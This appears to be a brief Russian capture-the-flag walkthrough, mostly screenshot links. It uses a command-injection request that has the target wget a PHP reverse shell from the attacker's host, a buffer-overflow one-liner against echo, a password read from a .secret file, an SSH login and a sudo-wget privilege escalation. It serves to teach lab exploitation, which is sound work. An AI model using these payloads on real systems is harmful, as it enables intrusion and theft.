 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/1a38ac51-1a71-40a9-9c4d-27dcbd325b4c)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/129f46fa-dfea-4027-aa7e-82b8a1a399c2)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ec09e955-ff2b-4d52-9d4a-46465ac1556a)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/7cee6efb-9ccb-4798-9a2a-ddec783d331d)

Кидаем реверс php

GET /search.php?q=%22%3bwget%20ip:1234/test1.php%3b%22

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9bbdcef7-fd6c-4aae-8c64-6478e7d687da)

`find / -user nolan`

echo

https://cocomelonc.github.io/pwn/2021/10/19/buffer-overflow-1.html

```
./usr/bin/echo $(python3 -c 'print("A"*8001+"\x01")')
```

Читаем файл .secret там пароль

Заходим по ssh `ssh nolan@62.173.140.174 -p 18822`

`sudo -l`

https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-wget-privilege-escalation/



